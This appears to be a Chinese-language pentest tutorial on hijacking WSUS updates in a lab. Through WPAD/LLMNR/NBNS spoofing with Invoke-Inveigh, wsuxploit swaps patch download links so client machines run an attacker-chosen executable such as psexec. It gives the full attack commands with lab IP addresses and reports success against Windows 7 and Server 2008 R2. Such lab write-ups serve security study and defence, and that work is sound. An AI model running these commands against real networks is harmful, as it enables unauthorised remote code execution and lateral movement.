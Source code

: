 #### 0x01前置

拥有WSUS服务器权限，我们可以以补丁的形式给内网的机器下发psexec.exe并执行命令。在没有权限的情况下，可以通过中间人攻击劫持目标机器和WSUS的通信，更改WSUS返回给目标机器的返回包中的补丁下载链接，使目标机器下载我们的可执行文件安装执行。

#### 0x02 知识补充

##### WAPD

网络代理自动发现协议（Web Proxy Autodiscovery Protocol）,通过让浏览器自动发现代理服务器，定位代理配置文件wpad.dat，下载编译并运行，最终自动使用代理访问网络。wpad.dat文件示例

```javascript
//
function FindProxyForURL(url, host) {
      if (shExpMatch(host, "*.google.com")||shExpMatch(host, "google.com")) 	{return "PROXY 192.168.50.5:8118; DIRECT";}
      return "DIRECT";
   }
```

如图

![](./media2/1.png)

用户PC在设置了自动发现代理服务器时，在访问网络之前，首先会向DNS/DHCP服务器请求WPAD主机的地址，再从WPAD主机80端口下载wpad.dat文件编译运行，之后使用wpad.dat设置的代理服务器和代理规则通过代理服务器链接网络。在DHCP和DNS不可用的情况下，则用户PC发起名称解析(域内：wpad.domain.com)。名称解析按以下步骤进行：

```
1.检查文件系统中的主机文件
    在其配置文件C\Windows\System32\drivers\etc中，查询要访问的系统信息，检查要访问的设备是否时本身。
2.检查本地DNS缓存
		检查缓存。如果高速缓存中存在要访问的设备的信息，则使用此信息。
3.发送查询到DNS
		如果计算机从配置文件中找不到与要访问的设备有关的任何信息，它将向本地网络上的DNS服务器发送查询。
4.发送LLMNR查询
		LLMNR是当DNS服务器名称解析失败时处理的协议。
5.发送NetBIOS-NS查询
		发送NetBIOS查询
```



#### 0x03 WSUS交互过程

在设置了WSUS服务器的内网，其他机器更新时会通过http协议和wsus服务进行交互，确定需要安装哪些补丁，以及补丁的下载地址。交互过程：

1.客户端发送本地已安装补丁ID

![](./media2/3.jpg)

服务端返回可更新补丁，图示为补丁ID

![](./media2/4.jpg)

2.客户端发送本机硬件ID列表

![](./media2/5.jpg)

服务端返回是否有可用更新

![](./media2/6.jpg)

3.请求可用更新地址及服务端返回

![](./media2/7.jpg)

返回包里包含了可用更新补丁的hash、补丁安装类型、补丁下载地址。通过burp可以更为直观的看见返回包内容

![](./media2/8.jpg)

安装类型CommandLineInstall可以为安装程序提供参数。

#### 0x04 劫持

综上，在配置了自动代理发现的网络环境中，可以通过劫持wpad,使得目标使用我们的代理服务器进行系统更新。在请求更新返回包中，修改补丁下载地址，使目标机器下载我们的可执行文件(微软签名，如：psexec)执行。

相关工具[Invoke-Inveigh](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)、[wsuxploit](https://github.com/pimps/wsuxploit)(需要安装twisted18.9.0，这个模块是个天坑)、

在攻击机(192.168.0.202)上执行

`python wsuxploit.py psexec` //默认监听8080端口，可更改payload.ini自定义payload

`Invoke-Inveigh -IP 192.168.0.202 -NBNS Y -LLMNR Y -SMB N -StatusOutput Y -HTTP Y SpooferHostsReply-Default All -WPADAuth Anonymous -WPADIP 192.168.0.202 -WPADPort 8080 -Tool 2`

其中SpooferHostsReply-Default可指定为目标IP，`-WPADIP 192.168.0.202 -WPADPort 8080`指定wsuxploit的IP和端口。当目标机器(192.168.0.232)更新时，就能修改交互

![](./media2/9.jpg)



![](./media2/10.jpg)

(192.168.0.101为WSUS服务器)

在客户端win7、WSUS服务端为2008r2上测试成功。

